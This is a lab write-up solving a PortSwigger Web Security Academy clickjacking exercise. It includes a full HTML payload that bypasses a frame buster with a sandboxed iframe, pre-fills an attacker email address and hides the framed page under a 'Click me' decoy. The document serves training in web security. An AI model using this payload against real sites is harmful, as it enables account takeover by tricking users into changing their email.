

# Clickjacking with a frame buster script

## Description

[This lab](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script) is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address? To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". 

## Reproduction and proof of concept

1. Log in to the account on the target website.
2. Create payload:

* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `385px` and `80px` - to align the "Update email" button with the "Test me" decoy action.

```text
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 385px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms" src="https://lab-id.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, adjust the position of the div element by modifying the `top` and `left` properties of the style sheet. 
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.



6. **Deliver exploit to victim**

## Exploitability

An attacker needs to change another user's email address by logging in to the `wiener:peter` account and crafting some HTML that frames the account page. _Note: The victim will be using Chrome so test the exploit on that browser._
